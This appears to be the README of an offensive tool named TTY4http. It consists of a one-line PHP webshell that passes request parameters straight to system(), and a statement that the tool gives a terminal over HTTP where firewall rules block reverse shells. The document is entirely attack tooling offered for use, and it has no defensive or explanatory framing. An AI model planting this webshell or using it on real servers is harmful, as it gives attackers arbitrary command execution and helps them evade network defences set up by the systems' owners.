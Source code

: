 # TTY4http

Using a basic webshell:

```php
// webshell
<?php 
    system($_REQUEST['cmd']); 
?>
```

Obtain a tty by http, ideal for when iptables reblas are implemented, preventing the option of a reverse shell by tcp or udp.
